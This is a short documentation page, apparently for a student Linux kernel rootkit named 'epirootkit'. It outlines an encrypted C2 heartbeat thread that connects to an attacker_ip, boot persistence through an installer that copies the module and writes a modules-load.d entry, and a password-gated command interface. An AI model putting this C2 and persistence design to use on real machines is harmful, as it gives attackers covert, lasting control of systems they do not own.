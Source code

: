 ```yaml
---
title: "Encrypted C2, Persistence & Auth"
description: "Heartbeat threads, autoload, and password protection"
icon: "router"
date: "2025-05-11T18:30:00+01:00"
lastmod: "2025-05-11T18:30:00+01:00"
draft: false
toc: true
weight: 58
---
```


# 1. Encrypted C2 Heartbeat

**What we did**  
Spawn a kernel thread to poll our C2 server.

**How it works**  
1. `kthread_run(c2_thread_fn, &cfg, "epic2")`.
2. Loop:
   - `msleep(ping_interval_ms)`.
   - `kernel_socket()`, `kernel_connect(attacker_ip, port)`.
   - Exchange AES-128-CBC packets using keys from `.epirootkit-config`.

---

# 2. Persistence & Autoload

**What we did**  
Automatically load on reboot.

**How it works**  
Our `installer.sh`:
1. Copies `epirootkit.ko` to `/lib/modules/$(uname -r)/extra/`.
2. Runs `depmod -a`.
3. Writes `/etc/modules-load.d/epirootkit.conf` with:
   ```
   epirootkit
   ```
    
---

# 3. Password Protection

**What we did**  
Protect `daniel.*` commands with a salted hash.

**How it works**  
1. Store `SHA256(salt‖password)` in `/etc/epirootkit/passwd`.
2. First command must be  
   ```
   daniel.p.<hex-salted-hash>
   ```
3. We compare hashes; only then unlock the command interface.
```